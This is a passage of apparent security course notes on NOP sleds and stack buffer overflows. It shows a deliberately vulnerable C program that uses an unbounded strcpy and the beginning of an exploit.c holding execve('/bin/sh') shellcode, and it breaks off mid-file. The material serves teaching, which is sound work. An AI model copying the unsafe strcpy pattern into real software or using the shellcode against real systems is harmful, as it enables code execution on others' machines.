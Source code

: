 #### <a name="4.3.1" class="anchor"></a> [NOP slide](#4.3.1)

A [NOP slide](https://en.wikipedia.org/wiki/NOP_slide), or `nop`-sled, is an optional sequence of no-nothing instruction used to fill stack and eventually reach a jump to shellcode, which is any code used to start a shell, such as `execve("/bin/sh")`.

#### <a name="4.3.2" class="anchor"></a> [**Example:** buffer overflow attack](#4.3.2)

Below is an example buffer overflow attack using `nop`-sled and injected shellcode:

```c
/* program.c */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    char buffer[512];

    memset(buffer, 0, sizeof(buffer));
    if (argc > 1) {
        strcpy(buffer, argv[1]);
    }

    printf("buffer@%p: %s\n", buffer, buffer);
    return 0;
}
```

- exploit for vulnerable program, where shellcode is hexadecimal string encoding machine instructions (note that shellcode can also be written in assembly and inserted into executable by compiler, `gcc -o exploit exploit.c shellcode.s`, and `extern char shellcode[];` instead of `unsigned char code[] = ... ;`)

    ```c
    /* exploit.c */
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    #define PROGRAM "./program"

    /* shellcode */
    unsigned char code[] =
        "\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43"
        "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh";

    /* inline macro to get stack pointer */
    __inline__ unsigned int get_esp(void) {
        unsigned int res;
        __asm__("movl %%esp, %0" : "=a" (res));
        return res;
    }
